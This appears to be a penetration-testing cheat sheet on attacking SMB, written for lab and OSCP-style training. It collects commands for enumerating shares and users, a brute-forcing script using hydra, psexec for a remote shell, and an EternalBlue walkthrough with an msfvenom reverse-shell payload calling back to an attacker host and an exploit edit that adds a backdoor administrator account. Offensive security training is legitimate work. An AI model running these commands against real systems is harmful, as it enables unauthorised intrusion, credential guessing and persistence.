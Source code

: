 # (139,445) SMB

<details>

<summary>List shares</summary>

```bash
smbclient -L //10.130.40.80 -N
```

```bash
nxc smb 10.11.1.123 -u '' -p ''
```

#### List all files in a share recursively

```bash
smbclient //10.11.1.231/home -N -c 'recurse;ls'
```

```bash
smbmap -H <ip> -R
```

</details>

<details>

<summary>SMB Version </summary>

```bash
smb_version 10.11.1.115
```

* Used this [tool](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) but changed `tap0` to `tun0`

### SMB1

* Susceptible to known attacks (Eternal blue , wanna cry)
* Disabled by default in newer Windows version
* Versions:&#x20;
  * Windows 2000, XP and Windows 2003

### SMB2

* Reduced "chattiness" of SMB1
* Guest access disabled by default
* Versions:&#x20;
  * SMB2: Windows Vista SP1 and Windows 2008
  * SMB2.1: Windows 7 and Windows 2008 R2

### SMB3

* Guest access disabled
* Uses encryption (most secure)
* Versions:
  * Windows 8 and Windows 2012.

</details>

<details>

<summary>SMB Username Enumeration</summary>

```bash
nmap --script smb-enum-users.nse -p445 10.1.1.68
```

</details>

<details>

<summary>Connect to shares</summary>

```bash
smbclient //10.10.215.173/milesdyson -U=milesdyson

# List shares
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --shares
# Dump all files from all readable shares
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k -M spider_plus
# Get Specific File
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --get-file 'Network Security Changes.pdf' /tmp/Network_Security_Changes.pdf --share "Public" 
```

Spaces in share name

```bash
smbclient "//10.11.1.136/Bob Share/" -N
```

</details>

<details>

<summary>Increase Timeout For Large Files</summary>

```bash
smbclient //ZPH-SVRCDC01/C$ -U=internal.zsm.local/melissa
timeout 120
iosize 16384
```

</details>

<details>

<summary>Copy all files from SMB share</summary>

```bash
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
```

</details>

<details>

<summary>Enum4linux</summary>

```
enum4linux -a 10.11.67.208
```

</details>

<details>

<summary>Nmap</summary>

<pre class="language-bash"><code class="lang-bash"><strong>nmap -p 445 -script vuln 10.10.10.4
</strong></code></pre>

```bash
nmap --script=smb-enum-shares <ip>
```

```bash
nmap --script smb-* -p 139,445, 172.21.0.0
```

</details>

<details>

<summary>Mounting SMB Shares</summary>

Use `cp` to copy large files from SMB shares.

```bash
mount -t cifs //10.10.10.134/Backups /home/kali/Documents/htb/10.10.10.134/share
```

Specifying credentials:

```bash
mount -t cifs -o username=V.Ventz //192.168.231.175/"Password Audit" /home/kali/Documents/pg_practice/192.168.231.175/share
```

</details>

<details>

<summary>SMB to Reverse shell</summary>

<pre class="language-bash"><code class="lang-bash"><strong>/usr/share/doc/python3-impacket/examples/psexec.py username:password@hostIP
</strong></code></pre>

PsExec is a portable tool from Microsoft that lets you run processes remotely using any user's credentials

</details>

<details>

<summary>HAIL MARY SCRIPT</summary>

```bash
smb_allenum 10.10.10.10
```

```bash
#!/bin/bash
# smbenum 0.2 - This script will enumerate SMB using every tool in the arsenal
# SECFORCE - Antonio Quina
# All credits to Bernardo Damele A. G. <bernardo.damele@gmail.com> for the ms08-067_check.py script

IFACE="eth0"

if [ $# -eq 0 ]
    then
        echo "Usage: $0 <IP>"
        echo "eg: $0 10.10.10.10"
        exit
    else
        IP="$1"
fi

echo -e "\n########## Getting Netbios name ##########"
nbtscan -v -h $IP

echo -e "\n########## Checking for NULL sessions ##########"
output=`bash -c "echo 'srvinfo' | rpcclient $IP -U%"`
echo $output

echo -e "\n########## Enumerating domains ##########"
bash -c "echo 'enumdomains' | rpcclient $IP -U%"

echo -e "\n########## Enumerating password and lockout policies ##########"
polenum $IP

echo -e "\n########## Enumerating users ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-users $IP
bash -c "echo 'enumdomusers' | rpcclient $IP -U%"
bash -c "echo 'enumdomusers' | rpcclient $IP -U%" | cut -d[ -f2 | cut -d] -f1 > /tmp/$IP-users.txt

echo -e "\n########## Enumerating Administrators ##########"
net rpc group members "Administrators" -I $IP -U%

echo -e "\n########## Enumerating Domain Admins ##########"
net rpc group members "Domain Admins" -I $IP -U%

echo -e "\n########## Enumerating groups ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-groups $IP

echo -e "\n########## Enumerating shares ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-shares $IP

echo -e "\n########## Bruteforcing all users with 'password', blank and username as password"
hydra -e ns -L /tmp/$IP-users.txt -p password $IP smb -t 1
rm /tmp/$IP-users.txt
```

</details>

<details>

<summary>MS17-010 (Eternal Blue)</summary>

CVE-2017-0143

1. `git clone https://github.com/worawit/MS17-010`
2.  Generate a reverse shell (`shell.exe`) using&#x20;

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f exe > shell.exe
    ```
3. Edit the following section inside the `zzz_exploit.py` file.

<img src="../.gitbook/assets/image (24).png" alt="Before edit" data-size="original">

<img src="../.gitbook/assets/image (296).png" alt="After edit" data-size="original">

* If received `Not found accessible named pipe` --> use SMB Guest authentication creds instead (guest:)

### Create a user with admin rights (windows)

Sometimes it may not work, then need to add user and place user in administrator group.

```python
 def smb_pwn(conn, arch):
     smbConn = conn.get_smbconnection()
     service_exec(conn, r'cmd /c net user bill pass /add')
     service_exec(conn, r'cmd /c net localgroup administrators bill /add')
```

4. Setup nc listener and run `python2.7 zzz_exploit.py 10.10.10.4`

</details>
